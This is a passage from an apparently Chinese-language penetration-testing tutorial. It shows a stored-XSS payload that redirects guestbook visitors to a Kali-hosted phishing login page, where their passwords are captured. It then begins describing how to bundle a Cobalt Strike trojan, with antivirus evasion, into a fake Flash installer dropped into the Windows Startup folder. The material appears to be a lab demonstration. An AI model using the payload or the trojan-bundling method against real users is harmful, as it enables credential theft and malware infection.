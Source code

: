 ![image-20211223143346294](https://gitee.com/xxb667/img/raw/master/img/image-20211223143346294.png)

**输入账户密码点击第1次没反应，再点击一次就有反应了**

同时 打开kali看一下，用户名密码已经被记录了下来

![image-20211223143454239](https://gitee.com/xxb667/img/raw/master/img/image-20211223143454239.png)

但是这里有个问题 这种办法费事费力，而且只能攻击一个人，还需要诱导用户点击我们的链接。

### 2.结合存储型XSS进行页面跳转

构造payload：

```
<script>window.location="http://192.168.81.131/"</script>
#地址是kali钓鱼页面
```

![image-20211223143849411](https://gitee.com/xxb667/img/raw/master/img/image-20211223143849411.png)

![image-20211223143911286](https://gitee.com/xxb667/img/raw/master/img/image-20211223143911286.png)



点击`sign guestbook`

现在只要用户点击到存储型XSS页面  就会跳转到登陆界面，当然你也可以结合上面的办法，把页面中所有的a标签都替换成我们的恶意链接。

![image-20211223144126547](https://gitee.com/xxb667/img/raw/master/img/image-20211223144126547.png)

用户输入密码后 会记录在后台

#### kali界面进行查看

这次输入的是 111和111

![image-20211223144225926](https://gitee.com/xxb667/img/raw/master/img/image-20211223144225926.png)

## 0x04:使用xss漏洞进行钓鱼

### 1.捆绑木马：

将木马与flash安装程序捆绑一起

木马解压位置:windows的自启动目录

这地方让对方下载后，不要急着让木马启动，电脑都会装杀毒，如果**免杀**不到位，一运行就凉了。

开机启动目录

```
C:\ProgramData\Microsoft\Windows\Start\Menu\Programs\Startup
```

解压我们的Flash.zip

 先用CS 生成木马 做好免杀放到里面。
